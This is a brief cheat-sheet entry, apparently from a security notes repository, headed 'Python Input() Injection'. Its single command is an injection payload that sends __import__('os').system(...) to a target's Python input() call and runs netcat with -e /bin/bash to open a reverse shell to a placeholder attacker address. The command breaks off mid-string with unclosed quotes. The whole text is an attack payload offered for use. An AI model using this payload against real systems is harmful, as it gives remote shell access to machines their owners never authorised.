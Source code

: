 # Python Input() Injection

## Command:

    echo "__import__('os').system('nc -e /bin/bash MY_IP MY_PORT | nc TARGET_IP TARGET_PORT

